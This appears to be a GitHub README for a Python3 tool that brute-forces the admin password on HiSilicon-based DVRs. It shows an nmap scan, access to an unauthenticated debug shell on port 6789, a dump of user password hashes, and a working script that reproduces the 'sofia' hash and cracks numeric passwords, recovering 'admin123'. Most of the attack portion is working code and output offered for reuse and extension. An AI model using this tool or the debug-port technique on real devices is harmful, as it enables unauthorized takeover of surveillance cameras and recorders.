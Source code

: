 # HiSilicon_DVR_hack_python3
Python3 script to bruteforce admin password

So I have a DVR **Airspace CCTV** with a label Model: **SAM-1968**, user has a valid password as user, but don't have the password for the user *admin*, needed to change any settings on the DVR.

nmap scan:
```
Not shown: 65528 closed ports
PORT      STATE SERVICE
23/tcp    open  telnet
90/tcp    open  dnsix
554/tcp   open  rtsp
3800/tcp  open  pwgpsi
6789/tcp  open  ibm-db2-admin
8000/tcp  open  http-alt
49152/tcp open  unknown
MAC Address: 90:02:A9:9B:BB:F2 (Zhejiang Dahua Technology)
```

Was a bit stuck, until I try to netcat to all the ports, see I can login into the port 6789, a debug port, very limited shell with a few commands, among them
*users -u* will dump some kind of user list and some kind of *hash*
   
```
1:admin:Ny2SRZzv:1:1, 2, 3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48, 49, 50, 51, 52, 54, 55, 5
6, 57, 58, 59, 60:admin 's account:1:4          
2:default:OxhlwSG8:2:3, 4, 5, 6, 7:default account:0:4
3:XXXca:4jejqB7V:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
4:XXXoni:9pmPStaQ:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
5:XXXl:ijoPLH3a:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4  
6:XXXta:eq4yRN5P:1:3, 4, 5, 6, 7, 20, 21, 22, 23, 24, 38, 42::1:4
7:XXXsa:kEuXCZhl     
```

I didn't recognize the hash format, so I started googling until I found a HiSilicon paper on exploit-db.com
https://www.exploit-db.com/papers/44003

On that excelent paper from Istvan Toth he describes the process he used to hack into the system extract the firmware, among that information he describes the user hash that the firmware uses. He even created a python2 script that replicate from the password the hash.
I converted it to python3 and implemented a function to do a quick a dirty bruteforce, and it worked, I just tried with 4 digits number password and it dumps some of the passwords, for the admin password on that dump I had to go the extra mile and add the word "admin" in front of the digits, and that revelaed the admin123 password.
I guess you can improve it so it can bruteforce using characters, or wordlist, or even a hashcat input, but for me was enough this way.

I'll paste the code here
```
import hashlib
lista =["Ny2SRZzv",
        "OxhlwSG8",
        "4jejqB7V",
        "9pmPStaQ",
        "ijoPLH3a",                                                                            
        "eq4yRN5P",
        "kEuXCZhl" ]
def sofia_hash(msg):
    h = ""
    m = hashlib.md5()
    m.update(msg.encode('utf-8'))
    msg_md5 = m.digest()
    for i in range(8):
        n = (msg_md5[2*i] + msg_md5[2*i+1]) % 0x3e
        if n > 9:
            if n > 35:
                n += 61
            else:
                n += 55
        else:
            n += 0x30
        h += chr(n)
    return h

for i in range(9999):
    h = sofia_hash(str(i))
    #h = sofia_hash("admin" + str(i))
    if h in lista:
        print ("value %s hash %s" % (str(i) ,h))
```
